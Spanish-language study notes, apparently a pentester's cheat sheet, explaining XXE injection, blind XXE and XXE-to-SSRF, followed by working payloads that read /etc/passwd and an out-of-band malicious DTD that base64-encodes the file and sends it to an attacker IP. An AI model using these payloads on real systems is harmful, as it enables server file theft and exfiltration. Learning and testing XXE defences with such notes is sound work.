 -- -
Cuando hablamos de XML External Entity (XXE) Injection, a lo que nos referimos es a una vulnerabilidad de seguridad en la que un atacante puede utilizar una entrada XML maliciosa para acceder a recursos del sistema que normalmente no estarían disponibles, como archivos locales o servicios de red. Esta vulnerabilidad puede ser explotada en aplicaciones que utilizan XML para procesar entradas, como aplicaciones web o servicios web.

Un ataque XXE generalmente implica la inyección de una entidad XML maliciosa en una solicitud HTTP, que es procesada por el servidor y puede resultar en la exposición de información sensible. Por ejemplo, un atacante podría inyectar una entidad XML que hace referencia a un archivo en el sistema del servidor y obtener información confidencial de ese archivo.

Un caso común en el que los atacantes pueden explotar XXE es cuando el servidor web no valida adecuadamente la entrada de datos XML que recibe. En este caso, un atacante puede inyectar una entidad XML maliciosa que contiene referencias a archivos del sistema que el servidor tiene acceso. Esto puede permitir que el atacante obtenga información sensible del sistema, como contraseñas, nombres de usuario, claves de API, entre otros datos confidenciales.

Cabe destacar que, en ocasiones, los ataques XML External Entity (XXE) Injection no siempre resultan en la exposición directa de información sensible en la respuesta del servidor. En algunos casos, el atacante debe “ir a ciegas” para obtener información confidencial a través de técnicas adicionales.

Una forma común de “ir a ciegas” en un ataque XXE es enviar peticiones especialmente diseñadas desde el servidor para conectarse a un Document Type Definition (DTD) definido externamente. El DTD se utiliza para validar la estructura de un archivo XML y puede contener referencias a recursos externos, como archivos en el sistema del servidor.

Este enfoque de “ir a ciegas” en un ataque XXE puede ser más lento y requiere más trabajo que una explotación directa de la vulnerabilidad. Sin embargo, puede ser efectivo en casos donde el atacante tiene una idea general de los recursos disponibles en el sistema y desea obtener información específica sin ser detectado.

Adicionalmente, en algunos casos, un ataque XXE puede ser utilizado como un vector de ataque para explotar una vulnerabilidad de tipo SSRF (Server-Side Request Forgery). Esta técnica de ataque puede permitir a un atacante escanear puertos internos en una máquina que, normalmente, están protegidos por un firewall externo.

Un ataque SSRF implica enviar solicitudes HTTP desde el servidor hacia direcciones IP o puertos internos de la red de la víctima. El ataque XXE se puede utilizar para desencadenar un SSRF al inyectar una entidad XML maliciosa que contiene una referencia a una dirección IP o puerto interno en la red del servidor.

Al explotar con éxito un SSRF, el atacante puede enviar solicitudes HTTP a servicios internos que de otra manera no estarían disponibles para la red externa. Esto puede permitir al atacante obtener información sensible o incluso tomar el control de los servicios internos.
-- -
## Entidades:
Las entidades son una forma de representar un elemento de datos sin referenciar a los datos como tal, todo esto en un documento XML.

**Tipos de entidades:**
- Genéricas / Customizadas
- Externas (XXE)
- Predefinidas ---> General Entities
	- &lt (Lower Than);
	- &gt (Grater Than); 
- Entidades Parametricas ---> %nombre_entidad;
### Ejemplo de una estructura XML
```xml
<?xml version="1.0" encoding="UTF-8"?> ---> Declaración XML
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "mi entidad">]> ---> DTD (Document Type Definition)

<root>
	<name>fran</name>
	<tel>5454545as</tel>
	><email>fran@fran.com</email>
	><password>fran123</password>
</root>
```

-- -
## Payloads: 
```xml
<!DOCTYPE foo [<!ENTITY myFile SYSTEM "file:///etc/passwd">]>
<!DOCTYPE foo [<!ENTITY myFile SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">]>
 ```

# XXE Out Of Band interaction (OOB) 
Estas mismas son lo mismo que las anteriores solo que a ciegas:
```xml
<!DOCTYPE foo [<!ENTITY myFile SYSTEM "http://192.168.64.128/testXXE">]>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://192.168.64.128/malicious.dtd"> %xxe;]> # ---> Lo declaro ahi mismo ya que a veces no te deja declararlo en el propio cuerpo. 
```
**Archivo malicious.dtd:**
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> 
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://192.168.64.128/?file=%file;'>">
%eval; 
%exfil;
```
-- -
## Aclaraciones:
- Siempre hay que "invocar" el nombre de la entidad dentro de la estructura XML para asi ejecutar el payload. (&myFile dentro de algun tag). 

